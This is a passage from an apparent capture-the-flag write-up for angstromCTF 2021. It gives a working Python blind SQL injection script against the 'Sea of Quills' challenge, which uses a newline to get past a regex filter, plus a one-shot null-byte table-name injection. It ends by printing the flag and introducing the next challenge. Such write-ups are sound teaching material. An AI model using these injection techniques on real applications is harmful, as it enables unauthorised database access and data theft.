 With all that said, we can bypass the regex of `lim` and `off` by inserting a number followed by a newline and our payload. My final solution was to use blind SQLi to grab the flag character by character. There are more practical solutions where you can grab the entire flag in one shot but yeah, if you're brave enough to wait for a blind SQLi on a 30+ long flag, take a coffe and see the flag coming in one char at a time.

```python
#!/usr/bin/python
import requests
import urllib3
import string

index = 6
flag = 'actf{'
while 1:
    for char in '_' + string.ascii_letters + string.digits + '}':
        print("[+] Trying {}{}".format(flag, char))
        data = {
            "cols" : "desc" ,
            "limit" : "1",
            "offset" : "0\n or (select case when substr(flag,{},1)='{}' THEN 1 ELSE 0 END from flagtable)".format(index, char)
        }
        r = requests.post("https://seaofquills-two.2021.chall.actf.co/quills", data=data, verify=False)
        r = r.text
        if "it's very special" in r:
            print("[+] Found char: {}".format(char))
            flag += char
            if char == '}':
                print("[+] FLAG: {}".format(flag))
                exit()
            index += 1
            break
```

Using this approach, the offset becomes `0 or 1` = `1` only when we get the correct n-th char of the flag hence changing the offset of the query from 0 to 1 changes the ouput of the query on the page. Based on the yielded html we can check if the char we're trying is correct or if we should try the next one.

PS: the quill record with `desc = 'it's very special'` is at offset 1 so when we get it the response we know we got the correct n-th character.

PSS: Oooor we could just use `* from fLagtable\x00` as `cols`'s param and get the flag directly. Apparently SQLite [doesn't care about case sensitivity](https://stackoverflow.com/a/153967/1923464) in table names and `\x00` truncates the query string in Ruby/SQLite.

🏁 __actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}__{:.spoiler}

## nomnomnom

> I've made a new game that is sure to make all the Venture Capitalists want to invest! Care to try it out?<br>Author: paper
